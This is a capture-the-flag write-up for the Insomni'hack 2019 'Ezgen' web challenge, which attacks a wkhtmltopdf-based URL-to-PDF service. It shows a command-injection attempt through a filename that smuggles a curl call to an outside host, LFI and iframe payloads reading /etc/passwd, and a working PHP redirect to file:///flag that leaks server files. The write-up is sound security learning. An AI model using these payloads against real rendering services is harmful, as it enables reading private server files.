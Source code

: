 # Insomni'hack 2019 - Ezgen

##
## https://gist.github.com/ast3ro/ca6eec74293be5992f35b18023b420a4
##

<pre>Category: Web
Difficulty: Easy</pre>

We were offered a website that generates a pdf from a given URL.

## How it works

* Enter a URL and submit
* Browser is redirected to /webtopdf.php?url=http://site.url
* If everything is OK, a pdf is rendered with the content of the submitted site
* Sometimes the webtopdf.php redirects to homepage (if submitted URL is 404 for instance or submitted string is not a valid URL)
* There's javascript validation for the URL in the webpage; since there's not CSRF we can just call the `/webtopdf.php?url=xxx` directly without worrying of the validation, + it works as a GET request.

## Enumeration, reconnaissance

* Enumarate folders / files with [SecLists quickhits.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/quickhits.txt) - nothing interesting there
* Noticed a 403 on /flag - thought maybe that would be where the flag is but...
* Noticed a 403 for all non-existing URLs ^_^
* I generated a proper pdf and ran exiftool against it in case anything would be of interest:

`$ exiftool webtopdf.pdf`

I noticed that the pdf was created by `wkhtmltopdf 0.12.5`, which appears to be the [latest stable version](https://wkhtmltopdf.org/downloads.html).

There was also a mention of Qt in the results of exiftool so I thought maybe wkhtmltopdf was ran in some sort of window manager but it seems it is actually the webkit that's used to render the web page that uses Qt. Maybe not the right path right now but something to keep in mind.

* Searched google for all sites that have `inurl:webtopdf.php` and found only one instance that did not seem to be related to wkhtmltopdf: https://github.com/bogiesoft/hotelmis-ota/blob/master/webtoPDF.php

## Play with the behavior

* Try setting https://google.fr - OK, PDF is rendered
* Try setting the challenge URL - OK, PDF is rendered
* Try setting the challenge background image - OK, PDF is rendered
* Try setting http://localhost/flag, http://127.0.0.1/flag ... - nothing got rendered
* Try some dumb URLs with null bytes, command injection classics - page redirects to home
* Try injecting PHP wrappers LFI payloads, e.g. ?url=php://filter/convert.base64-encode/resource=/etc/passwd and other files - page redirects to home
* Try fuzzing a bit webtopdf.php parameters - nothing

## Try and actually attack webtopdf.php

### Known vulnerabilities

Here are some easy to find vulns that talk about wkhtmltopdf:

* [File inclusion vulnerability](https://www.virtuesecurity.com/kb/wkhtmltopdf-file-inclusion-vulnerability-2/)
* [Cure53 pentest report with local file access via HTML to PDF conversion](https://cure53.de/pentest-report_accessmyinfo.pdf)
* [Arbitrary command injection in pdfkit](https://snyk.io/vuln/SNYK-RUBY-PDFKIT-20071)
* Found nothing of interest on https://cvedetails.org

### Arbitrary command line injection

It seems the following command line is executed at some point:

`$ wkhtmltopdf www.google.com google.pdf`

So, at first I thought it might be possible to inject something in the command line; I connected to a server I control and created a file called `test out.pdf; curl http://mysite.lol/pingback` that I could hit on:

`http://mysite.lol/test out.pdf; curl http://mysite.lol/pingback`

I tried various files with such syntax on my server and pointed webtopdf.php to these URLs; got the hit on the whole `test out.pdf; curl http://mysite.lol/pingback` file but did not manage to get any command line injection.

### Local file inclusion via redirection

* After much frustration I decided to try other challenges, until I finally spent the last hour on Ezgen
* I asked an admin if I was on the right track, he could only confirm that the flag was located at /flag on the server
* Knowing that the service can hit my server, I tried and submit a URL containing the following but only got blank iframes in the pdf:

```html
<iframe src="file:///etc/passwd" height="500" width="500">
  <iframe src="file:///flag" height="500" width="500">
```

* After a while, I tried a location header pointing to /flag.

**It did the trick and we got the flag printed into the pdf! At 3:57 AM**

Contents of the php file hosted on my server:

```php
<?php

header("Location: file:///flag");

?>
```

We submitted the flag 2 minutes before the end of the CTF. That. Was. Close.

----

## Lessons learned

* In the end it was an easy challenge, so maybe next time start simple first! If it fails, think about more complex attack vectors.
* Think carefully before acting, sometimes it's really useful to just draw on paper who calls what, what's rendered where etc.
* Try focusing on a single problem at a time instead of flitting from a challenge to another...
* Never give up. Or maybe give up, but after the CTF has ended :)

----

Other interesting links around wkhtmltopdf:

* https://github.com/wkhtmltopdf/wkhtmltopdf/issues/1777
* https://blogs.gnome.org/mcatanzaro/2016/02/01/on-webkit-security-updates/
* https://wkhtmltopdf.org/usage/wkhtmltopdf.txt
* https://github.com/mikehaertl/phpwkhtmltopdf

